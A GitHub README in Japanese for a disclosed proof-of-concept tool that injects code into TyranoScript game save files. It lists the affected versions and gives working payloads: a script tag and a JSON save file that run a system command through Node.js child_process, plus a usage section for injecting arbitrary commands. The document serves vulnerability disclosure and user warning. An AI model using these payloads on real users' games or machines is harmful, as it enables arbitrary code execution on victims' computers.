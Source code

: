 # tyranoscript_vulnerability
👻 TyranoScript(Tyrano シリーズ)のテスト用コードインジェクションツール  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠他者から受け取ったセーブデータファイルや開発データの利用は大変危険です!!!!⚠**  

本脆弱性は[独立行政法人情報処理推進機構(IPA)](https://www.ipa.go.jp/)及び開発者に報告を行った後、365日の期間を開けて公開されました。
脆弱性に該当しない可能性がある/セキュリティリスクとなりうる部分を[修正](https://github.com/ShikemokuMK/tyranoscript/commit/83485b3d55845f8685762066b90e64f265249570)したとの返答を受け取っており、注意喚起及び同様の脆弱性作りこみの防止を目的として開示します。
本PoCはユーザへの注意喚起と、ユーザ自身が作成したゲームの脆弱性を調査する目的でのみの利用が許可され、攻撃への転用は禁止されています。
また、他者の作成したゲームに本PoCを使用することは、法律で禁止されている場合がありますのでご注意ください。  
ツール名はジョークです(恐竜の🍖食べてみたいよね)。

## Vulnerability
以下に示すツール/バージョンを用いて開発されたすべてのゲームに、セーブデータファイル経由の脆弱性が存在します。
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

攻撃者はセーブデータファイル内に埋め込まれたHTMLタグを経由して、JavaScriptからNode.jsの全機能を利用し、任意のコードを実行することができます。
これにより被害者は、配布されているセーブデータを読み込むだけで、悪意のあるコードの脅威に晒されることとなります。
また、ゲームの開発データである`index.html`を経由しても同様であり、対象のソフトウェア(ツール)/バージョンは以下になります。
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.03  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.13b)  
- (TyranoScript <= 4.88)  

本PoCにはindex.htmlにコードをインジェクションするテスト機能はありませんが、以下のコードを埋め込んだゲームを開発者としてプレビューすると、XSSから任意のコードが実行されます。
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
脆弱性調査はオリジナルのゲームセーブデータを利用せずに再現することができます。
他者のゲームにおいて調査を行う場合は、以下を利用することでセーブデータ改変の著作権諸問題を回避できます。
以下のセーブデータは、すべてのゲームのセーブデータパターンにマッチします。
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(サンプルゲーム引用元: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
デフォルトでは`calc`が実行されます。
コードはセーブデータの先頭のセーブに反映されます。

**コード`alert('Injected_by_TyranoKiller_!!!!');`は悪用を防ぐために付加されており、削除を禁止します。**
